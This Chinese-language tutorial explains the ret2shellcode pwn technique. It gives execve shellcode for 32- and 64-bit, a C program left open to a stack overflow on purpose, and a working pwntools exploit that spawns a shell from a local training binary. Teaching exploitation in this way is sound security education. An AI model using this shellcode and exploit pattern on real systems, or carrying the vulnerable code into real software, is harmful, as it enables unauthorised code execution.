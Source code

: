 ```yaml
---
title: "ret2shellcode"
description: ""
lead: ""
date: 2023-03-30T20:20:50+08:00
lastmod: 2023-03-30T20:20:50+08:00
draft: false
images: []
menu:
  docs:
    parent: ""
    identifier: "ret2shellcode-0eaa929129ddb1f35b555655c3b77a72"
weight: 3
toc: true
---
```


## 0x01 介绍

### shellcode

ret2shellcode用到的知识也是系统调用，只不过和ret2syscall的区别在于后者是利用程序里已有的代码片段，而前者是需要自己写系统调用代码编译后注入到内存里，然后跳转到我们写入的地方来执行我们写入的代码，我们称这种代码为shellcode。这种题型的难点就在于shellcode编写，其他的和前面区别不大。最简单的shellcode即execve系统调用的写法为

1. 获取 `/bin/sh` 字符串地址
2. 将字符串地址赋值给第一个参数寄存器
3. 将第二三参数寄存器置零
4. 将系统调用号存入ax寄存器
5. 执行内陷指令

32位的汇编代码为

```c
push 0x0068732f
push 0x6e69622f    # "/bin/sh"字符串按照小端序压入到栈中
mov ebx, esp    # 当前栈顶即esp指向的是"/bin/sh"字符串，将esp的值即字符串指针赋值给ebx
xor ecx, ecx    # ecx置零
xor edx, edx    # edx置零
mov eax, 11    # 将execve系统调用号给eax
int 0x80    # 执行系统调用

```

64位的汇编代码为

```c
mov rax, 0x0068732f6e69622f
push rax
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 59
syscall
```

值得注意的是64位不能直接将8个字节直接push进栈里，必须借助寄存器才可以将 `/bin/sh` 字符串压入栈中

### ret2shellcode

将汇编编译为机器码后注入到内存里即可。在此之前需要保存注入shellcode的地方有可执行权限，最常见的情况就是没有加 `NX` 保护，然后可以注入到堆栈、data段bss段。还有的情况就是使用mmap申请了一个有可执行权限的内存，例如

```c
char *p = mmap(0x10000, 0x1000, 7, 0x22, -1, 0)
```

第一个参数是申请内存开始的地址，第二个参数是申请的内存大小，需要为内存分页的倍数（4KB的倍数），第三个参数是内存权限，可读为1，可写为2，可执行为4，通过或运算可以知道可读可写可执行的值为7，0x22是 `MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED` ，代表这是一个私有的映射（别的进程不可访问），还是一个匿名映射（不和任何文件相关联），而且映射区域映射到指定的起始地址，第四个参数是文件描述符，如果是匿名映射，填-1即可，最后一个参数是指定要映射文件的偏移量，可以填0不用管

这样我们在0x10000地址处就有了一个可以写入执行shellcode的内存了

还有一种情况是通过mprotect更改内存区域的权限，例如

```c
mprotect(0x10000, 0x1000, 7)
```

第一个参数是你要修改内存区域的地址，第二个参数是区域的长度，也需要是内存分页的倍数，最后一个参数是权限，和mmap的权限一样。

值得注意的是mmap和mprotect都是有系统调用存在的

我们以最简单的没加 `NX` 保护的情况来讲

```c
#include<stdio.h>
char buf[0x50];

void run() {
    char name[0x10];
    printf("name: ");
    scanf("%s", name);
    printf("content: ");
    scanf("%s", buf);
}

int main() {
    run();
    return 0;
}
// gcc ret2shellcode.c -o ret2shellcode -m32 -no-pie -fno-pic -fno-stack-protector -z execstack

```

这里第一次输入存在栈溢出，而第二次输入是输入到buf中，buf是未初始化数组，保存在了bss段中，由于没有加PIE保护，所以buf地址是已知的，那么我们就可以将shellcode注入到buf中，然后覆盖函数返回地址为buf地址，即可通过ret跳转执行我们的shellcode

![6cd8d6f25ac6a5d65b1c8586e1d8cf23](images/6cd8d6f25ac6a5d65b1c8586e1d8cf23.png)  

这样我们就可以写出最终的Exploit

```c
from pwn import*
context.log_level = 'debug'    # 设置为调试模式
context.arch = 'i386'    # 设置系统架构，要不然编译汇编代码会出错
o = process("./ret2shellcode")
# 第一次输入，栈溢出覆盖函数返回地址为buf地址
payload = b'a'*28 + p32(0x804a040)
o.sendline(payload)

# execve("/bin/sh", 0, 0)
shellcode = '''
push 0x0068732f
push 0x6e69622f
push esp
pop ebx
xor ecx, ecx
xor edx, edx
mov eax, 59
xor eax, 48    # 由于11是scanf的截断字符，所以通过先将eax赋值为59，再将eax和48异或eax即可得到11 
int 0x80
'''
payload = asm(shellcode)    # 编译汇编代码
o.sendline(payload)    # 将编译好的机器码写入到buf中

o.interactive()

```

![ef435571032bf634b5d9a6dafac27beb](images/ef435571032bf634b5d9a6dafac27beb.png)  

建议调试看看具体过程
